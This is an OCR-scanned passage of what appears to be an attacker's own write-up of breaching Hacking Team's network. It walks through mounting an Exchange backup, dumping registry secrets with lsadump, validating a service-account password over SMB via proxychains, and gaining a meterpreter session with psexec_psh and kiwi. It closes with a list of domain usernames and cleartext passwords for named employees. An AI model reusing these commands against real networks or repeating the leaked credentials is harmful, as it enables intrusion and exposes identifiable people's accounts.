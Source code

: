 then the offset is 2048 * 512 = 1048576
$ losetup -o 1048576 / dev / loop1 / dev / loop0
$ mount -o ro / dev / loop1 / mnt / exchange /

now in / mnt / exchange / WindowsImageBackup / EXCHANGE / Backup 2014-10-14 172311
We found the hard drive of the virtual machine, and assembled it:
vdfuse -r -t VHD -f f0f78089-d28a-11e2-a92c-005056996a44.vhd / mnt / vhd-disk /
mount -o loop / mnt / vhd-disk / Partition1 / mnt / part1

... and finally we have unpacked the Russian doll and we can see all the
files from the old Exchange server in / mnt / part1

[1] https://tra.transparencytoolkit.org/FileServer/FileServer/Hackingteam/InfrastrutturaIT/Rete/infrastruttura%20ht.pdf


- [10 - Backup to Domain Administrator] ---------------------

What interests me the most about the backup is to look if you have a
password or hash that you can use to access the current server. Use pwdump,
cachedump, and lsadump [1] with the registry files. lsadump finds the
password of the besadmin service account:

_SC_BlackBerry MDS Connection Service
0000 16 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
0010 62 00 65 00 73 00 33 00 32 00 36 00 37 00 38 00 bes3.2.6.7.8.
0020 21 00 21 00 21 00 00 00 00 00 00 00 00 00 00 00!.!.! ...........

I use proxychains [2] with the server socks in the embedded system and
smbclient [3] to check the password:
proxychins smbclient '//192.168.100.51/c$' -U 'hackingteam.local / besadmin% bes32678 !!!'

!Works! The besadmin password is still valid, and is an administrator
local. I use my proxy and psexec_psh from metasploit [4] to get a session
of meterpreter. Then I migrate to a 64-bit process, "load kiwi" [5],
"creds_wdigest", and I already have many passwords, including the administrator's
of the domain:

HACKINGTEAM BESAdmin bes32678 !!!
HACKINGTEAM Administrator uu8dd8ndd12!
HACKINGTEAM c.pozzi P4ssword <---- go sysadmin!
HACKINGTEAM m.romeo ioLK / (90
HACKINGTEAM l.guerra 4luc@=.=
HACKINGTEAM d.martinez W4tudul3sp
HACKINGTEAM g.russo GCBr0s0705!
HACKINGTEAM a.scarafile Cd4432996111
HACKINGTEAM r.viscardi Ht2015!
HACKINGTEAM a.mino A! E $$ andra
HACKINGTEAM m.bettini Ettore & Bella0314
HACKINGTEAM m.luppi Blackou7
HACKINGTEAM s.gallucci 1S9i8m4o!
HACKINGTEAM d.milan set! Dob66
HACKINGTEAM w.furlan Blu3.B3rry!
HACKINGTEAM d.romualdi Rd13136f @ #
HACKINGTEAM l.invernizzi L0r3nz0123!
HACKINGTEAM e.ciceri 2O2571 & 2E
HACKINGTEAM e.rabe erab @ 4HT!

